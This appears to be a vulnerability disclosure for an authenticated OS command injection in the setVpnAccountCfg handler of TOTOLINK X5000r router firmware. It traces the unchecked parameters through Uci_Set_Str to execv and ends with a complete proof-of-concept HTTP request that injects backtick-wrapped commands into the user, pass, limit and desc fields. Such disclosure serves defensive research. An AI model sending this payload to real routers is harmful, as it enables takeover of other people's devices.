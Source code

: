 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /web/cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setVpnAccountCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setVpnAccountCfg` (at 0x414734), binary /web/cgi-bin/cstecgi.cgi. These parameters ( `user`, `pass`, `limit`, `desc`) are passed to the `Uci_set_str` function without any check.
![](C:\Users\Administrator\Desktop\漏洞\04 TOTOLINK漏洞研究\Vulnerabilities\setVpnAccountCfg.png)
The `Uci_Set_Str` function is located in `libcscommon.so`. This function formats the fourth parameter into a string and passes it to the `CsteSystem` function, which eventually calls the `execv` function to execute it.

![](C:\Users\Administrator\Desktop\漏洞\04 TOTOLINK漏洞研究\Vulnerabilities\Uci_Set_Str().png)

![](C:\Users\Administrator\Desktop\漏洞\04 TOTOLINK漏洞研究\Vulnerabilities\CsteSystem().png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 225
Origin: http://192.168.0.1
Connection: keep-alive
Referer: http://192.168.0.1/advance/account.html?timestamp=1733739239593

{"type":"3","user":"123`ls>/tmp/1`","pass":"123`ls>/tmp/2`","limit":"1`ls>/tmp/3`","desc":"123`ls>/tmp/4`","addEffect":"1","ipaddr":"","subnet":[{"ipaddr":"","mask":""}],"accessLimit":"0","topicurl":"setVpnAccountCfg","token":"022874401695c70dc41bee226599ed69"}
```
